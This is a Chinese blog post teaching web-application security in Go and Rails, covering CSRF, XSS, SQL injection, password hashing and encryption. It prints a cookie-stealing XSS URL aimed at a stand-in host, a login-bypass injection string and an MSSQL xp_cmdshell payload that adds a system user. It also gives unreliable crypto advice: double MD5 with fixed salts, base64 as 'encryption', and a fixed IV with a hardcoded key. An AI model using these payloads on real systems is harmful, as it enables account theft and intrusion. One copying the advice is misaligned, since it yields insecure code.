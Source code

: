 ```yaml
---
layout: post
title: 在Web application 中基本的安全防范小结
date:   2017-05-22 18:00:06
categories: Web
image: /assets/images/post.jpg
---
```


##### CSRF攻击

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。

> 那么CSRF到底能够干嘛呢？你可以这样简单的理解：攻击者可以盗用你的登陆信息，以你的身份模拟发送各种请求。攻击者只要借助少许的社会工程学的诡计，例如通过QQ等聊天软件发送的链接(有些还伪装成短域名，用户无法分辨)，攻击者就能迫使Web应用的用户去执行攻击者预设的操作。例如，当用户登录网络银行去查看其存款余额，在他没有退出时，就点击了一个QQ好友发来的链接，那么该用户银行帐户中的资金就有可能被转移到攻击者指定的帐户中。

CSRF攻击示意图：

![CSRF攻击示意图]( /assets/images/web-safe/csrf.png "Optional title")

CSRF攻击步骤：

1. 登入正常的网站A,并在本地保存了Cookie
2. 在不退出A的情况下,访问了危险网站B（比如点击了小广告）

> CSRF攻击主要是因为Web的隐式身份验证机制，Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。

预防：

>1、正确使用GET,POST和Cookie；

>2、在非GET请求中增加伪随机数, 比如随机token；

```go
生成随机数token

h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))
t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)

输出token

<input type="hidden" name="token" value="{{.}}">

验证token

r.ParseForm()
	token := r.Form.Get("token")
	if token != "" {
		//验证token的合法性
	} else {
		//不存在token报错
	}
```

##### 输入验证

过滤用户输入数据，验证数据的合法性，是一个重要的过程。能够在一定程度上，避免恶意数据在程序中被误用。

三个步骤：

>1、识别数据，搞清楚需要过滤的数据来自于哪里

>2、过滤数据，弄明白我们需要什么样的数据

>3、区分已过滤及被污染数据，如果存在攻击数据那么保证过滤之后可以让我们使用更安全的数据

输入数据来自哪里？

1. 表单提交时的参数

2. 接口传递的json参数

3. 参数在url中

4. 参数在http 的Header中

进行验证。验证数据的有效性，可以简单的验证，也可以根据自己的规则而验证。

在`<Grape>`框架中，在controller　层做了验证的DSL语法的验证。`<Rails>`的框架，还可以在model层做验证。

这里建议，如果可以在controller 做验证，最好先做，再继续在model层做相关验证。通过两重的验证，基本可以保证数据的有效性。

##### XXS攻击

> 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

```
XSS目前主要的手段和目的如下：

盗用cookie，获取敏感信息。
利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
```

XSS的原理

> Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因

例子(来自　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md):

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：

```
hello astaxie

如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

```

如何预防XSS

不要相信用户的任何输入的内容，并过滤掉输入中的所有特殊字符比如<script> <a>这样的标签。如果不过滤或清洁这样的标签，当浏览器
在渲染这样的字符串数据的时候，就会调用<script>中的代码，但是，这个代码并不是我们希望执行的。可能你的网站就被莫名奇妙的alert弹框，字体颜色被改。
或其他更危险的javascript的操作

过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

text/template包下面的HTMLEscapeString、JSEscapeString等函数

在Rails 开发中，如果要渲染有嫌疑的html字符串，使用`<sanitize>`方法继续过滤。　对返回的数据进行， sanitize @post.content，　或对 可以自定义的url 进行　sanitize

使用HTTP头指定类型

```
`w.Header().Set("Content-Type","text/javascript")`

这样就可以让浏览器解析javascript代码，而不会是html输出。
```

HttpOnly 设为true, 防止通过javascript脚本的方式获取得到Cookie

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。


##### SQL注入

> SQL注入攻击（SQL Injection），简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。
通造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。

例子来自于：　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md

```
<form action="/login" method="POST">
	<p>Username: <input type="text" name="username" /></p>
	<p>Password: <input type="password" name="password" /></p>
	<p><input type="submit" value="登陆" /></p>
</form>

username:=r.Form.Get("username")
password:=r.Form.Get("password")
sql:="SELECT * FROM user WHERE username='"+username+"' AND password='"+password+"'"

如果用户的输入的用户名如下，密码任意
  myuser' or 'foo' = 'foo' --
那么我们的SQL变成了如下所示：
  SELECT * FROM user WHERE username='myuser' or 'foo' = 'foo' --'' AND password='xxx'

在SQL里面--是注释标记，所以查询语句会在此中断。这就让攻击者在不知道任何合法用户名和密码的情况下成功登录了

对于MSSQL还有更加危险的一种SQL注入，就是控制系统，下面这个可怕的例子将演示如何在某些版本的MSSQL数据库上执行系统命令。
  sql:="SELECT * FROM products WHERE name LIKE '%"+prod+"%'"
	Db.Exec(sql)
如果攻击提交a%' exec master..xp_cmdshell 'net user test testpass /ADD' --作为变量 prod的值，那么sql将会变成
  sql:="SELECT * FROM products WHERE name LIKE '%a%' exec master..xp_cmdshell 'net user test testpass /ADD'--%'"
MSSQL服务器会执行这条SQL语句，包括它后面那个用于向系统添加新用户的命令。如果这个程序是以sa运行而 MSSQLSERVER服务又有足够的权限的话，攻击者就可以获得一个系统帐号来访问主机了。
```

如何预防SQL注入

1. 控制数据库的操作权限

2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理，或者使用strconv包对字符串转化成其他基本类型的数据进行判断。

3. 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。Go 的text/template包里面的HTMLEscapeString函数可以对字符串进行转义处理。

4. 不要直接拼接SQL语句, 对查询语句输入的前端提交传递过来的参数进行清洁过滤

##### 存储密码

简单的方案

在数据库中，使用单向哈希后存储，单向哈希算法有一个特征：无法通过哈希后的摘要(digest)恢复原始数据，这也是“单向”二字的来源。常用的单向哈希算法包括SHA-256, SHA-1, MD5等。

```go
import "crypto/sha256"

h := sha256.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/sha1"
h := sha1.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/md5"
h := md5.New()
io.WriteString(h, "需要加密的密码")
fmt.Printf("%x", h.Sum(nil))
```

+ 同一个密码进行单向哈希，得到的总是唯一确定的摘要。
+ 计算速度快。随着技术进步，一秒钟能够完成数十亿次单向哈希计算。

结合上面两个特点，考虑到多数人所使用的密码为常见的组合，攻击者可以将所有密码的常见组合进行单向哈希，得到一个摘要组合, 然后与数据库中的摘要进行比对即可获得对应的密码。这个摘要组合也被称为rainbow table。

因此通过单向加密之后存储的数据，和明文存储没有多大区别。因此，一旦网站的数据库泄露，使用暴力破解碰撞匹配，真实的密码就会被得到。

进阶的方案

自己设计一个哈希算法。一个好的哈希算法是很难设计的——既要避免碰撞，又不能有明显的规律，做到这两点要比想象中的要困难很多。因此实际应用中更多的是利用已有的哈希算法`<进行多次哈希>`，并且给密码进行`<加盐salt>`处理。

通常的做法是，先将用户输入的密码进行一次MD5（或其它哈希算法）加密；将得到的 MD5 值前后加上一些只有管理员自己知道的随机串，再进行一次MD5加密。这个随机串中可以包括某些固定的串，也可以包括用户名（用来保证每个用户加密使用的密钥都不一样）

```go

import "crypto/md5"
//假设用户名abc，密码123456
h := md5.New()
io.WriteString(h, "需要加密的密码")

//pwmd5等于e10adc3949ba59abbe56e057f20f883e
pwmd5 :=fmt.Sprintf("%x", h.Sum(nil))

//指定两个 salt： salt1 = @#$%   salt2 = ^&*()
salt1 := "@#$%"
salt2 := "^&*()"

//salt1+用户名+salt2+MD5拼接
io.WriteString(h, salt1)
io.WriteString(h, "abc")
io.WriteString(h, salt2)
io.WriteString(h, pwmd5)

last :=fmt.Sprintf("%x", h.Sum(nil))
```

##### 专家方案

使用`<scrypt>` 方案.这类方案有一个特点，算法中都有个因子，用于指明计算密码摘要所需要的资源和时间，也就是计算强度。计算强度越大，攻击者建立rainbow table越困难，以至于不可继续。scrypt是由著名的FreeBSD黑客Colin Percival为他的备份服务Tarsnap开发的。

```go
dk := scrypt.Key([]byte("some password"), []byte(salt), 16384, 8, 1, 32)
```

##### 加密和解密数据

base64加密

base64加密方法是一种简单的加密方法，例子:

```go
package main

import (
	"encoding/base64"
	"fmt"
)
func base64Encode(src []byte) []byte{
  return []byte(base64.StdEncoding.EncodeToString(src))
}
func base64Decode(src []byte) ([]byte, error) {
	return base64.StdEncoding.DecodeString(string(src))
}

func main() {
	// encode
	hello := "你好，世界！ hello world"
	debyte := base64Encode([]byte(hello))
	fmt.Println(debyte)
	// decode
	enbyte, err := base64Decode(debyte)
	if err != nil {
		fmt.Println(err.Error())
	}

	if hello != string(enbyte) {
		fmt.Println("hello is not equal to enbyte")
	}

	fmt.Println(string(enbyte))
}

```

#####　对称加密

Go语言的crypto里面支持对称加密的高级加解密包有：

crypto/aes包：AES(Advanced Encryption Standard)，又称Rijndael加密法，是美国联邦政府采用的一种区块加密标准。

crypto/des包：DES(Data Encryption Standard)，是一种对称加密标准，是目前使用最广泛的密钥系统，特别是在保护金融数据的安全中。曾是美国联邦政府的加密标准，但现已被AES所替代。

```go
package main

	import (
		"crypto/aes"
		"crypto/cipher"
		"fmt"
		"os"
	)

	var commonIV = []byte{0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f}

	func main() {
		//需要去加密的字符串
		plaintext := []byte("My name is Astaxie")
		//如果传入加密串的话，plaint就是传入的字符串
		if len(os.Args) > 1 {
			plaintext = []byte(os.Args[1])
		}

		//aes的加密字符串
		key_text := "astaxie12798akljzmknm.ahkjkljl;k"
		if len(os.Args) > 2 {
			key_text = os.Args[2]
		}

		fmt.Println(len(key_text))

		// 创建加密算法aes
		c, err := aes.NewCipher([]byte(key_text))
		if err != nil {
			fmt.Printf("Error: NewCipher(%d bytes) = %s", len(key_text), err)
			os.Exit(-1)
		}

		//加密字符串
		cfb := cipher.NewCFBEncrypter(c, commonIV)
		ciphertext := make([]byte, len(plaintext))
		cfb.XORKeyStream(ciphertext, plaintext)
		fmt.Printf("%s=>%x\n", plaintext, ciphertext)

		// 解密字符串
		cfbdec := cipher.NewCFBDecrypter(c, commonIV)
		plaintextCopy := make([]byte, len(plaintext))
		cfbdec.XORKeyStream(plaintextCopy, ciphertext)
		fmt.Printf("%x=>%s\n", ciphertext, plaintextCopy)
	}
```

上面通过调用函数aes.NewCipher(参数key必须是16、24或者32位的[]byte，分别对应AES-128, AES-192或AES-256算法),返回了一个cipher.Block接口，这个接口实现了三个功能：

```go
type Block interface {
	// BlockSize returns the cipher's block size.
	BlockSize() int

	// Encrypt encrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Encrypt(dst, src []byte)

	// Decrypt decrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Decrypt(dst, src []byte)
}
```


在开发Web应用的时候可以根据需求采用不同的方式进行加解密，一般的应用可以采用base64算法，更加高级的话可以采用aes或者des算法。


参考连接：　https://github.com/astaxie/build-web-application-with-golang　
